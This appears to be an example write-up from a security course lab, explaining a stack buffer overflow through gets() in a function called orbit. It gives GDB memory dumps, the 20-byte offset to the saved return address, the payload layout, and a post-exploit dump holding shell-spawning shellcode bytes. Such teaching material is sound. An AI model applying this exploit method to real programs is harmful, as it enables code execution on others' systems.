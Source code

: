 # Question 1: Spica Write-up
## Main Idea
#### (A description of the vulnerability)

The code is vulnerable because ```gets(buf)``` does not check the length of the input from the user, which lets an attacker write past the end of the buffer. We insert shellcode above the saved return address on the stack (rip) and overwrite the rip with the address of shellcode.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)

We first determined the address of the buffer (0xbffffc18) and the address of the rip of the orbit function (0xbffffc2c). This was done by invoking GDB and setting a breakpoint at line 5.

```
(gdb) x/16x buf
0xbffffc18:  0x41414141  0xb7e5f200  0xb7fed270  0x00000000
0xbffffc28:  0xbffffc18  0x0804842a  0x08048440  0x00000000
0xbffffc38:  0x00000000  0xb7e454d3  0x00000001  0xbffffcb4
0xbffffc48:  0xbffffcbc  0xb7fdc858  0x00000000  0xbffffc1c

(gdb) i f
Stack frame at 0xbffffc10:
 eip = 0x804841d in orbit (orbit.c:8); saved eip 0x804842a
 called by frame at 0xbffffc40
 source language c.
 Arglist at 0xbffffc28, args:
 Locals at 0xbffffc28, Previous frame's sp is 0xbffffc30
 Saved registers:
  ebp at 0xbffffc28, eip at 0xbffffc2c
```

By doing so, we learned that the location of the return address from this function was 20 bytes away from the start of the buffer (0xbffffc2c - 0xbffffc18 = 20).

## Exploit Structure
#### (A description of your exploit structure)

Here is the stack diagram (You don’t need a stack diagram in your writeup).

```
rip (0xbffffc2c)
sfp
compiler padding
buf (0xbffffc18)
```

The exploit has three parts:

1. Write 20 dummy characters to overwrite buf, the compiler padding, and the sfp.

2. Overwrite the rip with the address of shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xbffffc30 (0xbffffc2c + 4).

3. Finally, insert the shellcode directly after the rip.

This causes the orbit function to start executing the shellcode at address 0xbffffc30 when it returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)

When we ran GDB after inputting the malicious exploit string, we got the following output:

```
(gdb) x/16x buf
0xbffffc18:  0x61616161  0x61616161  0x61616161  0x61616161
0xbffffc28:  0x61616161  0xbffffc30  0xcd58326a 0x89c38980
0xbffffc38:  0x58476ac1  0xc03180cd  0x2f2f6850  0x2f686873
0xbffffc48:  0x546e6962  0x8953505b  0xb0d231e1  0x0080cd0b
```

After 20 bytes of garbage (blue), the rip is overwritten with 0xbffffc30 (red), which points to the shellcode directly after the rip (green).

Note: you don’t need to color-code your gdb output in your writeup.
